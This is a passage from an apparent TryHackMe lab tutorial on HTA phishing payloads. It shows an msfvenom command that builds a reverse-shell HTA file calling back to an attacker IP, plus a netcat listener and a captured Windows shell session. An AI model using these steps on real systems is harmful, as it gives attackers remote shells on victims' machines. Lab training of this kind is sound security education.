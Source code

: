 ![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/f3a719e8137e6fdca683eefbf373ea4f.png)

Once we pressÂ Run,Â theÂ payload.htaÂ gets executed, and then it will invoke theÂ cmd.exe. The following figure shows that we have successfully executed theÂ cmd.exe.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/07c5180cd36650478806a1bf3d4595f2.png)

**HTAÂ Reverse Connection**

We can create a reverse shell payload as follows,


```shell-session
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: thm.hta
```

We use theÂ msfvenomÂ from theÂ MetasploitÂ framework to generate a malicious payload to connect back to the attacking machine. We used the following payload to connect theÂ windows/x64/shell_reverse_tcpÂ to our IP and listening port.

On the attacking machine, we need to listen to the portÂ 443Â usingÂ nc. Please note this port needs root privileges to open, or you can use different ones.

Once the victim visits the malicious URL and hits run, we get the connection back.


```shell-session
user@machine$ sudo nc -lvp 443
listening on [any] 443 ...
10.8.232.37: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.201.254] 52910
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\thm\AppData\Local\Packages\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\TempState\Downloads>
pState\Downloads>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Ethernet 4:

   Connection-specific DNS Suffix  . : eu-west-1.compute.internal
   Link-local IPv6 Address . . . . . : fe80::fce4:699e:b440:7ff3%2
   IPv4 Address. . . . . . . . . . . : 10.10.201.254
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.10.0.1
```
